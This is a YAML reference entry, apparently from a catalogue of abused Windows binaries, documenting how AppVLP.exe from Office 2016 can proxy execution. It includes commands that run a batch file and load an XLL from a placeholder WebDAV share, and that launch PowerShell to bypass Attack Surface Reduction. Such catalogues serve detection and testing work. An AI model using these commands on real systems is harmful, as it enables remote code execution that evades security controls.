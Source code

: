 ```yaml
---
Name: Appvlp.exe
Description: Application Virtualization Utility Included with Microsoft Office 2016
Author: ""
Created: "2018-05-25"
Commands:
  - Command: AppVLP.exe \\webdav\calc.bat
    Usecase: Execution of BAT file hosted on Webdav server.
    Description: Executes calc.bat through AppVLP.exe
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows 10 w/Office 2016
  - Command: AppVLP.exe powershell.exe -c "$e=New-Object -ComObject shell.application;$e.ShellExecute('calc.exe','', '', 'open', 1)"
    Usecase: Local execution of process bypassing Attack Surface Reduction (ASR).
    Description: Executes powershell.exe as a subprocess of AppVLP.exe and run the respective PS command.
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows 10 w/Office 2016
  - Command: AppVLP.exe powershell.exe -c "$e=New-Object -ComObject excel.application;$e.RegisterXLL('\\webdav\xll_poc.xll')"
    Usecase: Local execution of process bypassing Attack Surface Reduction (ASR).
    Description: Executes powershell.exe as a subprocess of AppVLP.exe and run the respective PS command.
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows 10 w/Office 2016
Full_Path:
  - Path: C:\Program Files\Microsoft Office\root\client\appvlp.exe
  - Path: C:\Program Files (x86)\Microsoft Office\root\client\appvlp.exe
Code_Sample:
  - Code:
Detection:
  - IOC:
Resources:
  - Link: https://github.com/MoooKitty/Code-Execution
  - Link: https://twitter.com/moo_hax/status/892388990686347264
  - Link: https://enigma0x3.net/2018/06/11/the-tale-of-settingcontent-ms-files/
  - Link: https://securityboulevard.com/2018/07/attackers-test-new-document-attack-vector-that-slips-past-office-defenses/
Acknowledgement:
  - Person: fab
    Handle: "@0rbz_"
  - Person: Will
    Handle: "@moo_hax"
  - Person: Matt Wilson
    Handle: "@enigma0x3"
---
```

